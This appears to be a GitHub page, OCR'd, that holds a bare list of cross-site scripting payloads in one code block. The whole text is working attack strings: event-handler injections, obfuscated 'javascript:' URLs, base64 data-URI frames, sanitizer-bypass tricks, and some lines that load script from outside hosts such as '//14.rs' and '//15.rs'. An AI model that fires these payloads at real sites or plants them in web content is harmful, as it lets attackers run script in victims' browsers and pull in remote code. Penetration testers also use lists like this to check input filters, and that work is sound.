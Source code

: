 ```
"><a href="#" data-abc\"="foo">abc</a><a href="#" data-\u00B7._="foo">abc</a>1<template><s>000</s></template>2<b>{{evil<script>alert(1)</script><form><img src=x name=textContent></form>}}</b><option><style></option></select><b><img src=xx: onerror=alert(1)></style></option><svg onload="prompt(/xss/);"><!-- <script>void(%27&b=%27);alert(%27XSS%27);</script> </textarea> </textarea>#<img/src/onerror=alert(123)> "><script>confirm(1)</script> c <!--jaVasCript:/-//*\/'/"/*/(/ */oNcliCk=alert() )//%0D%0A%0D%0A//\x3e--> " onclick="alert(1)


</div></div></div></div><test/onbeforescriptexecute=confirm`h1poc`>

<lol/onauxclick=[0].some(alert) >RightClickToXss

<d3v/onmouseleave=[2].some(confirm)>click

<a/~/ href='s'>test</a>

<details/open/ontoggle=alert()>

<details/open/ontoggle=(confirm)()//

<a"/onclick=(confirm)()>click

<a/href=&#74;ava%0a%0d%09script&colon;alert()>click

<d3v/onauxclick=(((confirm)))``>click

<xmp><p title="</xmp><script>alert`1`</script>">

<svg </onload ="1> (_=prompt,_(1)) "">

<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>

URL's

<a href="java%0ascript:alert(1)">

<a href="data:text/html,<script>alert(document.domain)</script>">click</a> [firefox]

<iframe src="data:text/html;alert(1);base64,PHNjcmlwdD5hbGVydCgnaGknKTs8L3NjcmlwdD4=" />
	[URL 		= data:[<mediatype>][;base64],<data> 
	 mediatype 	= text/html;anything;base64;<data>]

<a href=&#74;avascript&colon;alert(1)>test2</a>
```